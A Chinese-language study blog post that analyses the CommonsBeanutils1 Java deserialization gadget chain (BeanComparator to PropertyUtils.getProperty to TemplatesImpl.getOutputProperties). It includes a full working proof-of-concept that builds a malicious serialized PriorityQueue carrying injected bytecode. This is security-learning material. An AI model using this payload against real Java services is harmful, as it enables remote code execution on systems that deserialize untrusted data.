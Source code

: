 # 前言

继续反序列化的学习。



# 预备知识

之所以会提到`CommonsBeanutils`的反序列化链，是因为`shiro`是依赖`	commons-beanutils`的，当然这是接下来学习的东西的。

根据名字就知道，类似`Commons-Collections`是对集合的封装和补充，`commons-beanutils`是应用于`javabean`的工具。

至于什么是`JavaBean`，放一下维基百科的定义，很简单：

- 有一个public的无参数构造函数。
- 属性可以透过*get*、*set*、*is*（可替代get，用在[布尔型](https://zh.wikipedia.org/w/index.php?title=布林型&action=edit&redlink=1)属性上）方法或遵循特定命名规则的其他方法访问。
- 可序列化。



第二条说白了就是属性都有访问器和更改器。而commons-beanutils中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任 意`JavaBean`的`getter`方法：

```java

    /**
     * <p>Return the value of the specified property of the specified bean,
     * no matter which property reference format is used, with no
     * type conversions.</p>
     *
     * <p>For more details see <code>PropertyUtilsBean</code>.</p>
     *
     * @param bean Bean whose property is to be extracted
     * @param name Possibly indexed and/or nested name of the property
     *  to be extracted
     * @return the property value
     *
     * @throws IllegalAccessException if the caller does not have
     *  access to the property accessor method
     * @throws IllegalArgumentException if <code>bean</code> or
     *  <code>name</code> is null
     * @throws InvocationTargetException if the property accessor method
     *  throws an exception
     * @throws NoSuchMethodException if an accessor method for this
     *  propety cannot be found
     * @see PropertyUtilsBean#getProperty
     */
    public static Object getProperty(final Object bean, final String name)
            throws IllegalAccessException, InvocationTargetException,
            NoSuchMethodException {

        return (PropertyUtilsBean.getInstance().getProperty(bean, name));

    }
```



说白了就是，比如一个类`Person`是个`JavaBean`，它有个`name`属性，则`PropertyUtils.getProperty(new Person(),"name")`则会调用它的`getName()`方法。



这有什么用呢？继续联系上一篇文章的`TransformingComparator`，要去找一个可用的`Comparator`。发现`commons-beanutils`中的`BeanComparator`类的`compare()`方法调用了`PropertyUtils.getProperty`：

```java
    public int compare( final T o1, final T o2 ) {

        if ( property == null ) {
            // compare the actual objects
            return internalCompare( o1, o2 );
        }

        try {
            final Object value1 = PropertyUtils.getProperty( o1, property );
            final Object value2 = PropertyUtils.getProperty( o2, property );
            return internalCompare( value1, value2 );
        }
        catch ( final IllegalAccessException iae ) {
            throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
        }
        catch ( final InvocationTargetException ite ) {
            throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
        }
        catch ( final NoSuchMethodException nsme ) {
            throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
        }
    }
```



我的第一反应其实是，咋可能有类的`getter`可以利用呢？但是还是我太年轻了，并不是真的说就是调用对应属性的`getter`。而是，比如这样：

```java
PropertyUtils.getProperty(new Person(),"abc")
```



在我们的利用中，并不是说真的去调用`Person`类的`abc`属性的`getter`，而是调用`getAbc()`，不管这个类有没有`abc`属性。

再联想到之前`TemplatesImpl`的调用链，当时是这样的：

![image-20210829233112596]([Java反序列化]CommonsBeanutils1利用链学习.assets/image-20210829233112596.png)

基本上的利用都是从`newTransformer()`开始，但是`getOutputProperties`同样也是`public`，也是以`get`开头：

```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

所以`PropertyUtils.getProperty`就可以调用`TemplatesImpl`类的`getOutputProperties`



# 构造POC

分析完了就可以开始构造了。首先就是`TemplatesImpl`对象：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

然后构造`comparator`和优先级队列`PriorityQueue`：

```java
        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
```

注意开头的`o`要小写。

接下来正常肯定就是`add`两次了，但是如果`add`两次的话，内部就会进行一次`compare()`，会造成影响，所以不直接`add`，而是用反射：

```java
        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
```

之所以还需要设置一下`size`，是因为我们没有`add`，每次`add`都会将`size+1`，所以需要利用反射设置一下。

再序列化和反序列即可：

```java
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```



构造完毕，放出总的`POC`，和ysoserial的有些区别，但是总的思路是一样的：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);

    }
}

```

```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```



![image-20210829234109314]([Java反序列化]CommonsBeanutils1利用链学习.assets/image-20210829234109314.png)



# 



















